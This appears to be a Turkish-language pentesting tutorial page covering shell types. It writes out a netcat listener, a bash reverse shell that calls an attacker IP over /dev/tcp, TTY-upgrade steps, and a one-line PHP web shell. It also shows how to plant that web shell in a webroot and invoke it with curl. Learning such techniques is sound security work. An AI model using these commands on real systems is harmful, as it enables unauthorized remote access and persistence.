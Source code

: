 ```yaml
---
glightbox: true
icon: material/circle-small
---
```


# Types of Shells

## Reverse Shell

Reverse shell, kontrol elde etmenin en hızlı ve en kolay yöntemi olduğundan en yaygın shell türüdür. Saldırı makinemizdeki dinleyiciye geri bağlantı başlatır.

### Netcat Listener

Reverse shell almak için ilk adım seçilen bir port için Netcat dinleyicisi başlatmaktır:

```bash
nc -l -v -n -p 2222
```

| Flag | Description |
|---|---|
| `-l` | Bir bağlantının bağlanması beklenir. |
| `-v` | Ayrıntılı mod kullanılır. |
| `-n` | Bağlantıyı hızlandırmak için DNS çözümlemesi devre dışı bırakılır. |
| `-p` | Port numarası belirtilir. |

### Reverse Shell Command

[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) reposunda bulunan [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) sayfasında reverse shell için kullanılabilecek çeşitli komutların bir listesi bulunur.

Aşağıda örnek bir reverse shell komutu verilmiştir:

```bash
bash -c 'bash -i &> /dev/tcp/10.0.2.6/2222 0<&1'
```

Bu komut hedef makinede çalıştırıldığında Netcat tarafında bağlantı alınabilir.

## Bind Shell

Hedef bilgisayardaki belirli bir porta bağlanır ve saldırı makinesinden bağlantı bekler. [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) sayfasında bind shell için kullanılabilecek çeşitli komutların bir listesi bulunur.

## Upgrading TTY

Uzak bir shell bağlantısı gerçekleştirdiğimizde son derece sınırlı bir TTY oturumuna sahip oluruz. TTY yükseltmesi gerçekleştirerek bu sorunu çözebiliriz.

!!! failure "ZSH"

    Burada bahsedilen işlemler ZSH için çalışmayabilir. Bu sebeple ilk önce Bash shell ile oturum açmak gerekebilir.

TTY yükseltmek için kullanılan yöntemlerden biri python/stty yöntemidir. Bu yöntemde Netcat ile dinleme gerçekleştirdiğimiz shell Full TTY yapılır:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Bu komutun ardından ++control+z++ ile shell arka plana taşınır. Bu şekilde yerel terminale geri dönülür. Sonrasında aşağıdaki komut ile `ECHO` özelliği devre dışı bırakılır:

```bash
stty raw -echo
```

Bu işlemin ardından Netcat shell tekrar ön plana taşınır (`ECHO` devre dışı olduğu için `fg` komutu ekranda gözükmez):

```bash
fg
```

Netcat shell için terminal değişkeni ayarlanır:

```bash
export TERM=xterm
```

Ek olarak terminalin boyut bilgisini de iyileştirebiliriz. Bunun için yerel terminalde aşağıdaki komut kullanılır:

```bash
stty size
```

Burada edinilen bilgiler Netcat shell içerisine kopyalanır:

```bash
stty rows 30 columns 120
```

Son olarak terminal sıfırlanır:

```bash
reset
```

## Web Shell

Web shell, HTTP GET veya HTTP POST istek parametreleri aracılığıyla verilen komutları kabul eder, bu komutları yürütür ve sonuçları web sayfasına yazdırır.

### Writing a Web Shell

Web shell, genellikle kısa ve tek satırlık (one-liner) bir komut dosyasıdır. Aşağıda PHP için örnek bir web shell verilmiştir:

```php
<?php system($_REQUEST["cmd"]); ?>
```

### Uploading a Web Shell

Web shell dosyasını web tarayıcısı aracılığıyla yürütmek için, ilgili dosya, uzak bilgisayarın web köküne (webroot) yerleştirilmelidir.

Aşağıda bazı web sunucuları için varsayılan web kökleri verilmiştir:

| Web Server | Default Webroot |
|---|---|
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ |
| XAMPP | C:\xampp\htdocs\ |

Örneğin Apache çalıştıran bir Linux bilgisayarına saldırıyorsak aşağıdaki komutu kullanabiliriz:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Accessing a Web Shell

Parametre olarak `id` değeri verilerek `id` komutunun çalıştırılması sağlanabilir:

```bash
curl http://SERVER_IP_ADDRESS:PORT/shell.php?cmd=id
```

```text title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bir web shell, port üzerinde yeni bir bağlantı açmaz. Bu sayede bazı güvenlik duvarı kısıtlamaları atlanabilir. Ayrıca hedef bilgisayar yeniden başlatılsa bile, web shell yerinde kalmaya devam eder.

